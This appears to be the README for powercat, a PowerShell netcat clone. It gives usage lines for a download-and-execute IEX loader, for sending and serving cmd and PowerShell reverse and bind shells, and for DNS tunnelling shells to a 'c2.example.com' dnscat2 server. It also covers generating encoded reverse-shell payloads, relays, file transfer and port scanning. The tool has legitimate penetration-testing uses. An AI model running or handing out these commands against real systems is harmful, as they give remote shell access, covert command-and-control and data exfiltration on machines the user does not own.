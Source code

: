 powercat
========
Netcat: The powershell version. (Powershell Version 2 and Later Supported)

Installation
------------
powercat is a powershell function.  First you need to load the function before you can execute it.  You can put one of the below commands into your powershell profile so powercat is automatically loaded when powershell starts.
###
    Load The Function From Downloaded .ps1 File:
        . .\powercat.ps1
    Load The Function From URL:
        IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')

### Parameters:
    -l      Listen for a connection.                             [Switch]
    -c      Connect to a listener.                               [String]
    -p      The port to connect to, or listen on.                [String]
    -e      Execute. (GAPING_SECURITY_HOLE)                      [String]
    -ep     Execute Powershell.                                  [Switch]
    -r      Relay. Format: "-r tcp:10.1.1.1:443"                 [String]
    -u      Transfer data over UDP.                              [Switch]
    -dns    Transfer data over dns (dnscat2).                    [String]
    -dnsft  DNS Failure Threshold.                               [int32]
    -t      Timeout option. Default: 60                          [int32]
    -i      Input: Filepath (string), byte array, or string.     [object]
    -o      Console Output Type: "Host", "Bytes", or "String"    [String]
    -of     Output File Path.                                    [String]
    -d      Disconnect after connecting.                         [Switch]
    -rep    Repeater. Restart after disconnecting.               [Switch]
    -g      Generate Payload.                                    [Switch]
    -ge     Generate Encoded Payload.                            [Switch]
    -h      Print the help message.                              [Switch]

Basic Connections
-----------------------------------
By default, powercat reads input from the console and writes input to the console using write-host. You can change the output type to 'Bytes', or 'String' with -o.
###
    Basic Client:
        powercat -c 10.1.1.1 -p 443
    Basic Listener:
        powercat -l -p 8000
    Basic Client, Output as Bytes:
        powercat -c 10.1.1.1 -p 443 -o Bytes

File Transfer
-------------
powercat can be used to transfer files back and forth using -i (Input) and -of (Output File).
###
    Send File:
        powercat -c 10.1.1.1 -p 443 -i C:\inputfile
    Recieve File:
        powercat -l -p 8000 -of C:\inputfile

Shells
------
powercat can be used to send and serve shells. Specify an executable to -e, or use -ep to execute powershell.
###
    Serve a cmd Shell:
        powercat -l -p 443 -e cmd
    Send a cmd Shell:
        powercat -c 10.1.1.1 -p 443 -e cmd
    Serve a shell which executes powershell commands:
        powercat -l -p 443 -ep

DNS and UDP
-----------
powercat supports more than sending data over TCP. Specify -u to enable UDP Mode. Data can also be sent to a [dnscat2 server](https://github.com/iagox86/dnscat2) with -dns. **Make sure to add "-e open --no-cache" when running the dnscat2 server.**
###
    Send Data Over UDP:
        powercat -c 10.1.1.1 -p 8000 -u
        powercat -l -p 8000 -u
    Connect to the c2.example.com dnscat2 server using the DNS server on 10.1.1.1:
        powercat -c 10.1.1.1 -p 53 -dns c2.example.com
    Send a shell to the c2.example.com dnscat2 server using the default DNS server in Windows:
        powercat -dns c2.example.com -e cmd

Relays
------
Relays in powercat work just like traditional netcat relays, but you don't have to create a file or start a second process. You can also relay data between connections of different protocols.
###
    TCP Listener to TCP Client Relay:
        powercat -l -p 8000 -r tcp:10.1.1.16:443
    TCP Listener to UDP Client Relay:
        powercat -l -p 8000 -r udp:10.1.1.16:53
    TCP Listener to DNS Client Relay
        powercat -l -p 8000 -r dns:10.1.1.1:53:c2.example.com
    TCP Listener to DNS Client Relay using the Windows Default DNS Server
        powercat -l -p 8000 -r dns:::c2.example.com
    TCP Client to Client Relay
        powercat -c 10.1.1.1 -p 9000 -r tcp:10.1.1.16:443
    TCP Listener to Listener Relay
        powercat -l -p 8000 -r tcp:9000

Generate Payloads
-----------------
Payloads which do a specific action can be generated using -g (Generate Payload) and -ge (Generate Encoded Payload). Encoded payloads can be executed with powershell -E. You can use these if you don't want to use all of powercat.
###
    Generate a reverse tcp payload which connects back to 10.1.1.15 port 443:
        powercat -c 10.1.1.15 -p 443 -e cmd -g
    Generate a bind tcp encoded command which listens on port 8000:
        powercat -l -p 8000 -e cmd -ge

Misc Usage
----------
powercat can also be used to perform portscans, and start persistent servers.
###
    Basic TCP Port Scanner:
        (21,22,80,443) | % {powercat -c 10.1.1.10 -p $_ -t 1 -Verbose -d}
    Start A Persistent Server That Serves a File:
        powercat -l -p 443 -i C:\inputfile -rep
